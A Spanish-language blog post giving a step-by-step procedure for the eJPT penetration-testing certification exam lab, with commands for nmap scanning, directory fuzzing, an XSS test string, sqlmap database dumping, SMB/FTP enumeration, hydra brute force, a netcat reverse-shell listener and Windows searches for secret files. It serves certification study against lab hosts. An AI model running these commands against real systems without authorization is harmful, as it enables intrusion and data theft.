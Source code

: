 ```yaml
---
title:  "Aprobar el eJPT a la primera"
categories: 
  - Certificaciones
tags:
  - eJPT
toc: true
toc_label: "Tabla de contenido"
---
```

El presente artículo contiene una guía del procedimiento a llevar acabo para aprobar con éxito el examen de la certificación [eJPT](https://elearnsecurity.com/product/ejpt-certification/).

## Barrido de ping

Una vez te conectes por **VPN** al laboratorio, lo primero que deberías hacer es un reconocimiento al sistema, encontrando activos, para lo cual los siguientes comandos te serian de ayuda:

```bash
nmap -sn 10.10.10.0/24
fping -a -g 10.10.10.0/24 2>/dev/null
```
## Escaneo exhaustivo

Ya en este punto, después de tener tu lista de host activos, lo siguiente que deberías hacer es un escaneo más exhaustivo, es decir listar los puertos abiertos con los que cuentan los host, así mismo como los servicios y versiones que están corriendo en ellos. No olvides ir guardando todos tus escaneos y datos relevantes encontrados.

```bash
nmap -p- --open -n -v -T5 10.10.14.16 -oN puertos
sudo nmap -sS --min-rate 200 -p- --open -n -v -Pn 10.10.14.16 -oN puertos
nmap -sV -sC -p21,22,80 10.10.14.16 -oN serviciosVersiones
nmap --script=vuln -p22,21,80,445 -v 10.10.14.16 -oN vulnScan
nmap --script=smb-vuln* -p445 -v 10.10.14.16 -oN smbScan
```
En esta etapa también debes ir realizando un reconocimiento a todos los servicios y puertos listados con los comandos anteriores, algunas cosas que deberías probar dependiendo el puerto y/o servicio seria:

### **Servicios Web**

```bash
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```

- **XSS**

```bash
<script>alert(xss)</script>
<h1>H1</h1>
```

- **SQLMap**

```bash
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```

### **Enumeración de SMB**

```bash
smbclient -L 10.10.14.12 -N
smbmap -H 10.10.14.12 -u 'null'
nmap --script=smb-vuln* -p445 10.10.14.15 -oN smbScan
smbmap -H 10.10.14.15 -R backups -u 'null'
smbclient //10.10.14.15/backups
```
### **Enumeración de FTP**

```bash
nmap --script=ftp-anon -p21 10.10.14.12
ftp 10.10.14.12
cd ..
```
## Explotación

En esta fase es en la cual debes aprovechar de los resultados anteriores obtenidos, con esos resultados podrás buscar posibles exploits o maneras de aprovecharte de ellos, como por ejemplo:

### FTP - Fuerza Bruta

```bash
hydra -l admin -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.1
```
**Pista:** 
Después de encontrar lo que te solicitan podrías necesitar **unshadow** y **john**
{: .notice--danger}

### Reverse Shell

Si te basas en los resultados anteriores y te ayudas de **Google** o **searchsploit** necesitarás:

- **nc**
```bash
nc -nlvp 443
```
- **metasploit**
```bash 
msfconsole
```
### Enumeración de windows

Una vez hayas comprometido el activo, deberás enumerar lo, los siguientes comandos te serán de gran ayuda:
```bash
dir /b/s "\*.conf*"
dir /b/s "\*.txt*"
dir /b/s "\*secret*"
route print
netstat -r
fsutil fsinfo drives
wmic logicaldisk get Caption,Description,providername
```

## Post Explotación

Ahora, una vez hayas realizado todo lo anterior, deberías preocuparte por descubrir nuevos activos y repetir los pasos anteriores si fuese necesario.

### Wireshark
```bash
ip.addr==192.168.12
ip.src == 192.168.2.11
ip.dst == 192.168.2.15
```
### IP Route
```bash
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0
```
## Recomendaciones
- **No** olvides revisar el material que te entregan antes del examen.
- Si deseas ver solo los comandos necesarios o alternativos para el examen, revisa mi [eJPT - Cheatsheet](https://github.com/hacknotes/eJPT-Cheatsheet)
